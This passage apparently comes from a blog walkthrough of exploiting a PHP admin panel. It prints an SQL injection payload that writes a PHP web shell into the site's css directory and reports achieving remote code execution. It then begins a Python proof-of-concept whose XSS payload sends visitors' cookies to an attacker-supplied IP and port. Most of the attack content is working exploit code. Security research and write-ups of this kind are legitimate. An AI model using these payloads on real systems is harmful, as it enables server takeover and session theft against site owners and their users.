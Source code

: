 I immediately saw that this time `find` function parameter was not using `intval` like previous function calls did. As we found out earlier, the function itself directly embeds the `id` variable into the query, which means we can achieve **SQL Injection**.

### Uploading shell with SQL Injection

The payload I used to upload PHP shell is:

```sql
/admin/edit.php?id=1 union select 1,"<?php system($_REQUEST['cmd']); ?>",3,4 into outfile "/var/www/css/shell.php" -- -
```

Since the root directory of webserver was not writable, which I found out during trial and error, I had to upload the shell to ***css*** directory to get it working.

And we got the **RCE**

![](https://raw.githubusercontent.com/lazarpostenje/lazarpostenje.github.io/master/assets/pic3.png#center)


## Developing Proof of Concept

First things first, let's import some of the libraries which we'll likely going to use:

```python
import requests
import re
import socket
import sys
```

Setting variables and wirting an usage message:

```python
r = requests.Session()

if len(sys.argv) < 3:
    print("Usage: ./" + sys.argv[0] + " [http://target] [your IP] [port to listen on]")
    sys.exit()
target = sys.argv[1]
attacker = sys.argv[2]
```

The exploit function generates the JavaScript XSS payload which will create a new image, set it's `src` attribute to attacker's IP address on the port where the script will listen on.

```python
def exploit():
    port = int(sys.argv[3])
    payload = (
        "<script>var i = new Image(); i.src = 'http://" + attacker + ":" + str(port) + "/' + escape(document.cookie)</script>"
    )
    print("[+] Submitting XSS")
    send(payload, port)
```
